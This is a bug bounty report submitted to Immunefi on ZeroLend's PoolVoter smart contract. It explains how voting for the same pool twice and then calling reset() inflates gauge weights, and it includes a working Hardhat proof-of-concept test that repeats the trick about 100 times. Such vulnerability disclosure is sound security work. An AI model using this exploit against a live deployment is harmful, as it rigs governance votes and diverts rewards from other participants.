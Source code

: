 
# Votes manipulation in PoolVoter

Submitted on Mon Mar 04 2024 12:33:40 GMT-0400 (Atlantic Standard Time) by @ox7a69 for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29012

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
**Affected asset**: https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol

`PoolVoter` contract allows to vote for the Gauge for anyone who has voting power by staking in the `VestedZeroNFT`.

The `vote()` function allows to specify pools associated with gauges and their respective weights.

```
function vote(
    address[] calldata _poolVote,
    uint256[] calldata _weights
) external {}
```

However, a crucial flaw exists as the function fails to check for repeated pools in the `_poolVote` array. Moreover, it only considers the last weight if the same pool is utilized, as seen here - https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L117.

```
if (_gauge != address(0x0)) {
    _updateFor(_gauge);
    _usedWeight += _poolWeight;
    totalWeight += _poolWeight;
    weights[_pool] += _poolWeight;
    poolVote[_who].push(_pool);
    votes[_who][_pool] = _poolWeight;  // !!!
}
```

When a voter calls the `reset()` function to retrieve their voting power back and vote for another gauge, only the last weight is taken into account in case of repeated pool voting.

As a result, the voter recovers the full voting power. Yet `totalWeight` and `weights[_pool]` are decreased only by the last element from the `_weights` array passed to the `vote()`.

```
uint256 _votes = votes[_who][_pool];

if (_votes > 0) {
    _updateFor(gauges[_pool]);
    totalWeight -= _votes;
    weights[_pool] -= _votes;
    votes[_who][_pool] = 0;
}
```

**Attack scenario**:
1. The attacker possesses a voting power of `19.01 ether`.
2. They invoke `vote()` to vote for the same gauge with the following parameters:
    - _poolVote = [gauge, gauge]
    - _weights = [19 ether, 1e8]
3.  Further they call `reset()`, but `weights[_pool]` and `totalWeight` are only decreased by `1e8`.
4. The attacker retains the full `19.01 ether` voting power. But `weights[_pool]` and `totalWeight` are now increased by `19 ether`.
5. By repeating steps 2-3 in a loop many times, the attacker can consolidate the majority of votes for their chosen gauge, and all rewards will be distributed to it.
6. By repeating steps 2-3 for **100** times, it's tantamount to having `1900 ether` voting power.
        
## Proof of concept
## Proof of Concept
To run the Poc put it's code to the `governance-main/test/PoolVoter.poc.ts` file, generate random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat
```

```
import { expect } from "chai";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  GaugeIncentiveController,
  OmnichainStaking,
  Pool,
  PoolVoter,
  StakingBonus,
  TestnetERC20,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";
import { deployVoters } from "./fixtures/voters";

// Put inside governance-main/test/PoolVoter.poc.ts

// Run as:
// WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat

describe.only("PoolVoter Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let now: number;
  let omniStaking: OmnichainStaking;
  let poolVoter: PoolVoter;
  let reserve: TestnetERC20;
  let stakingBonus: StakingBonus;
  let vest: VestedZeroNFT;
  let pool: Pool;
  let aTokenGauge: GaugeIncentiveController;
  let zero: ZeroLend;

  beforeEach(async () => {
    const deployment = await loadFixture(deployVoters);
    ant = deployment.ant;
    now = Math.floor(Date.now() / 1000);
    omniStaking = deployment.governance.omnichainStaking;
    poolVoter = deployment.poolVoter;
    reserve = deployment.lending.erc20;
    stakingBonus = deployment.governance.stakingBonus;
    vest = deployment.governance.vestedZeroNFT;
    zero = deployment.governance.zero;
    pool = deployment.lending.pool;
    aTokenGauge = deployment.aTokenGauge;

    // deployer should be able to mint a nft for another user
    await vest.mint(
      ant.address,
      e18 * 20n, // 20 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      true, // penalty -> false
      0
    );

    // stake nft on behalf of the ant
    await vest
      .connect(ant)
      ["safeTransferFrom(address,address,uint256)"](
        ant.address,
        stakingBonus.target,
        1
      );

    // there should now be some voting power for the user to play with
    // ant voting power is ~ 19 ether
    expect(await omniStaking.balanceOf(ant.address)).lessThan(e18 * 20n);
  });

  it("ant fraudulently increases his voting power by 100x", async function () {
    expect(await poolVoter.totalWeight()).eq(0);
    for (let i=0; i < 101; i++) {
      // Vote for the same pool 2 times but with different weights
      // 19 ether and 1e8 wei
      await poolVoter.connect(ant).vote(
        [reserve.target, reserve.target],
        [19n*e18, 1e8]
      );
      // Reset() call resets only 1e8 wei votes.
      // However, 19 ether votes remains untouched in totalWeight().
      // ant can has voting power of 19 ether again and again.
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L67
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L61-L63
      await poolVoter.connect(ant).reset();
    }
    expect(await poolVoter.totalWeight()).greaterThan(e18 * 19n * 100n);
  });
});
```